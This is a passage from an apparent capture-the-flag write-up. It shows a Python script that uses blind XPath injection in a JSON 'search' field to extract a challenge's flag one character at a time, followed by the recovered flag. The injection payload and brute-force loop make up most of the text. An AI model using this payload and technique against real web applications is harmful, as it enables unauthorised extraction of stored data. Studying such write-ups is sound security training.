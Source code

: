 ```python

for i in range(1, first_flag + 1):
    for al in alphabet:
        print("Testing: " + al +"\n")
        myobj = {"search":"random'] | /military/district/staff[3]/selfDestructCode[substring(text()," + str(i) + ",1) = '" + al + "'] | /military/district/staff[name='random"}
        with requests.post(url, json = myobj, stream=True) as x:
            status = x.json()['message']
            if status == "This millitary staff member exists.": 
                flag += al
                print("FLAG: " + flag)
                break

for i in range(1, second_flag + 1):
    for al in alphabet:
        print("Testing: " + al +"\n")
        myobj = {"search":"random'] | /military/district/staff[2]/selfDestructCode[substring(text()," + str(i) + ",1) = '" + al + "'] | /military/district/staff[name='random"}
        with requests.post(url, json = myobj, stream=True) as x:
            status = x.json()['message']
            if status == "This millitary staff member exists.": 
                flag += al
                print("FLAG: " + flag)
                break
```

![flag](/blog/assets/images/Pasted_image_20210421122458.png)

```
FLAG: CHTB{Th3_3xTr4_l3v3l_4Cc3s$_c0nTr0l}
```
